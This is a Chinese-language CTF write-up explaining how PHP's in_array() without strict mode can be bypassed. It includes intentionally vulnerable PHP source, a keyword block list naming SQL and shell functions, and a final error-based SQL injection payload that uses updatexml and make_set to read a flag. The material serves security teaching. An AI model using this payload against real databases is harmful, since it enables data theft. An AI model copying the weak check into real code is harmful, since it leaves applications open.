




函数学习
in_array ：(PHP 4, PHP 5, PHP 7)
功能 ：检查数组中是否存在某个值
定义 ： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
在 $haystack 中搜索 $needle ，如果第三个参数 $strict 的值为 TRUE ，则 in_array() 函数会进行强检查，检查 $needle 的类型是否和 $haystack 中的相同。如果找到 $haystack ，则返回 TRUE，否则返回 FALSE。
Demo学习
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| <?php
$id = $_GET['id'];
$whitelist = range(1,10);
if(!in_array($id, $whitelist)){
echo "<h1>非法id!</h1>";
}
else{
echo "<h1>id = {$id} 正确!</h1>";
}
echo "---------------";
if(!in_array($id, $whitelist, true)){
echo "<h1>非法id!</h1>";
}
else{
echo "<h1>id = {$id} 正确!</h1>";
}
?>
|
写了个简单demo，在第5行中，使用in_array()函数对变量$id的值进行校验是否在白名单中，但没有设置第三个参数，只会进行弱类型比较，不会检查数据类型。

弱类型比较，我们提交的$id=3 and 1=1中，会自动转化为3，而3在白名单range(1,10)中，所以判断符合要求，从而绕过in_array()函数限制。
当设置第三个后，开启强类型比较，则会提示参数为非法id。
案例学习
源码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
|
<?php
include 'config.php';
$conn = new mysqli($servername, $username, $password, $dbname);
if ($conn->connect_error) {
die("连接失败: ");
}
$sql = "SELECT COUNT(*) FROM users";
$whitelist = array();
$result = $conn->query($sql);
if($result->num_rows > 0){
$row = $result->fetch_assoc();
$whitelist = range(1, $row['COUNT(*)']);
}
$id = stop_hack($_GET['id']);
$sql = "SELECT * FROM users WHERE id=$id";
if (!in_array($id, $whitelist)) {
die("id $id is not in whitelist.");
}
$result = $conn->query($sql);
if($result->num_rows > 0){
$row = $result->fetch_assoc();
echo "<center><table border='1'>";
foreach ($row as $key => $value) {
echo "<tr><td><center>$key</center></td><br>";
echo "<td><center>$value</center></td></tr><br>";
}
echo "</table></center>";
}
else{
die($conn->error);
}
?>
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
|
<?php
$servername = "localhost";
$username = "fire";
$password = "fire";
$dbname = "day1";
function stop_hack($value){
$pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
$back_list = explode("|",$pattern);
foreach($back_list as $hack){
if(preg_match("/$hack/i", $value))
die("$hack detected!");
}
return $value;
}
?>
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| # 搭建CTF环境使用的sql语句
create database day1;
use day1;
create table users (
id int(6) unsigned auto_increment primary key,
name varchar(20) not null,
email varchar(30) not null,
salary int(8) unsigned not null );
INSERT INTO users VALUES(1,'Lucia','Lucia@hongri.com',3000);
INSERT INTO users VALUES(2,'Danny','Danny@hongri.com',4500);
INSERT INTO users VALUES(3,'Alina','Alina@hongri.com',2700);
INSERT INTO users VALUES(4,'Jameson','Jameson@hongri.com',10000);
INSERT INTO users VALUES(5,'Allie','Allie@hongri.com',6000);
create table flag(flag varchar(30) not null);
INSERT INTO flag VALUES('HRCTF{1n0rrY_i3_Vu1n3rab13}');
|
环境
- Windows10
- php 5.6.27 + Apache
- phpstudy
分析
该题目是需要我们绕过in_array()函数和不能使用拼接函数的报错注入来读取flag。
在index.php文件第12~15行中，白名单$whitelist为用户的总数
1
2
3
4
| if($result->num_rows > 0){
$row = $result->fetch_assoc();
$whitelist = range(1, $row['COUNT(*)']);
}
|
第20行in_array()函数未使用强类型比较，存在sql注入

在config.php文件中的stop_hack()函数没有过滤报错注入用到的相关函数updatexml和extractvalue等
常见的报错注入payload updatexml(1,concat(0x7e,select flag from flag,0x7e),1)过滤掉了concat()可以使用make_set()
make_set(bits,str1,str2,…)
返回一个设定值(含子字符串分隔字符串”,”字符)，在设置位的相应位的字符串。str1对应于位0，str2到第1位，依此类推。在str1，str1有NULL值，…那么不添加到结果。
e.g. select make_set(1,”a”,”b”,”c”);
将bits位的值转为二进制，1的二进制数值是 0000 0001，取反为 1000 0000 ，所以取str1的值则为 a

那么绕过的payload为
1
2
| Payload:
http://127.0.0.1/php/day1/index.php?id=1 and updatexml(1,make_set(3,'~',(select flag from flag)),1)
|
